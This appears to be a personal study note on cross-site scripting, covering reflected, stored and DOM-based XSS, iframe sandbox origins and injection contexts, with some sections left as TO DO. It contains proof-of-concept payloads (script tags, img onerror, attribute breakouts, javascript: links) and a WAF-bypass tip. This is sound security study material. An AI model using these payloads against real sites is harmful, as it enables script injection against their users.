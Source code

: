 # Cross-site scripting (XSS)

## General info
Cross-site scripting works by manipulating a vulnerable web site so that it returns malicious JavaScript to users

## Alert() limitation
TO DO

## Do not use alert(1)
```
<textarea id="script" onchange=("unsafe(this.value)"></textarea><br>
<iframe id="result" sandbox="allow-scripts allow-modals"></iframe>
```
```
document.session = "secret"
function unsafe(t) {
  var i = document.getElementById('result'); // get the <iframe>
  i.srcdoc = "<body><script>document.write("+t+");<"+"/script><body>";
}
```
- Try `alert(1)` and you see it works... but
- `alert(document.session)` won't work... why?
- `alert(window.origin)` or `alert(document.domain)` and you'll see it's empty
  - this is because the sandboxed iframe also has a different origin. It's isolated from the website it is embedded into and you cannot steal the secret session.
- Use `alert(document.domain)` or `alert(window.origin)` instead 

## Types of XSS
- Reflected XSS, where the malicious script comes from the current HTTP request.
  - `https://insecure-website.com/search?term=<script>/*+Bad+stuff+here...+*/</script>`
- Stored XSS, where the malicious script comes from the website's database.
  - POST example: `comment=%3Cscript%3E%2F*%2BBad%2Bstuff%2Bhere...%2B*%2F%3C%2Fscript%3E`
- DOM-based XSS, where the vulnerability exists in client-side code rather than server-side code.
  - ```
    <script>
    function trackSearch(query) {
      document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
    }
    var query = (new URLSearchParams(window.location.search)).get('search');
    if(query) {
      trackSearch(query);
    }
    </script>
    ```
  - Get request `https://insecure-website.com/index?search="><script>alert(document.domain)<%2Fscript>`
  - Methodology
      1. Look for any script that has a sinks
      2. See if you can control the sink
      3. Exploit it 
  - Note: here there are some sources and sinks
    - https://github.com/wisec/domxsswiki/wiki
    - https://portswigger.net/web-security/cross-site-scripting/dom-based#which-sinks-can-lead-to-dom-xss-vulnerabilities
  - Note 2: DOM Invader (Burp Suite tool) is a browser-based tool that helps you test for DOM XSS vulnerabilities using a variety of sources and sinks. 

### DOM XSS - Sources and sinks in third-party dependencies
To do...

### DOM XSS combined with reflected and stored data
- If a script reads some data from the URL and writes it to a dangerous sink, then the vulnerability is entirely client-side. (there is no processing from the server) 
- Reflected DOM vulnerabilities occur when the server-side application processes data from a request and echoes the data in the response. A script on the page then processes the reflected data in an unsafe way, ultimately writing it to a dangerous sink.
  - `eval('var data = "reflected string"');`
- In a stored DOM XSS vulnerability, the server receives data from one request, stores it, and then includes the data in a later response. A script within the later response contains a sink which then processes the data in an unsafe way.
  - `element.innerHTML = comment.author`

## Cross-site scripting contexts
### XSS between HTML tags
```
<script>alert(document.domain)</script>
<img src=1 onerror=alert(1)>
```
- Bypass WAF
  - If you receive an error like "tag <img> is not allowed" or "event is not allowed", use XSS cheat sheet to discover a tag and event that work.
  - Note: understand how a payload works
    - `<body onresize="print()">` with this payload (for reflected XSS) you need an exploit server and iframe tag
### XSS in HTML tag attributes
- When the XSS context is into an HTML tag attribute value, you might sometimes be able to terminate the attribute value, close the tag, and introduce a new one.
- `"><script>alert(document.domain)</script>`
- More commonly in this situation, angle brackets are blocked or encoded. In this case you can introduce a new attribute that creates a scriptable context.
- `" autofocus onfocus=alert(document.domain) x="`
- Sometimes the XSS context is into a type of HTML tag attribute that itself can create a scriptable context.
  - If the XSS context is into the href attribute of an anchor tag, you can use the javascript pseudo-protocol to execute script
  - `<a href="javascript:alert(document.domain)">`
- accesskey
  - <b>TO DO</b>

